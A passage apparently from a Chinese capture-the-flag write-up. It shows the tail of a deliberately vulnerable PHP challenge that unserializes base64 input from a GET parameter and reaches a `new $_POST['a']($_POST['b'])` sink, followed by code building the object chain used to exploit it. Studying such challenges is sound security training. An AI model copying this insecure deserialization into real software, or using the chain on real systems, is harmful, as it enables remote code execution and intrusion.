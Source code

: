 ```php
    }
}

class school{
    public $department;
    public $headmaster;
    public function __construct($department,$ceo){
        $this->department = $department;
        $this->headmaster = $ceo;
    }
    public function IPO(){
        if($this->headmaster == 'ong'){
            echo "Pretty Good ! Ctfer!\n";
            echo new $_POST['a']($_POST['b']);
        }
    }
    public function __wakeup(){
        if($this->department->hahaha()) {
            $this->IPO();
        }
    }
}

if(isset($_GET['d'])){
    unserialize(base64_decode($_GET['d']));
}
?>

```

构造：

```php
<?php
class teacher
{
    public $name;
    public $rank;
    private $salary;

}

class classroom
{
    public $name;
    public $leader;
}


class school
{
    public $department;
    public $headmaster;

}

$t = new teacher();
$c = new classroom();
$s = new school();
$s->headmaster = "ong";
$s->department = $c;
$c->name = "one class";
$c->leader = $t;
$t->name = "ing";
```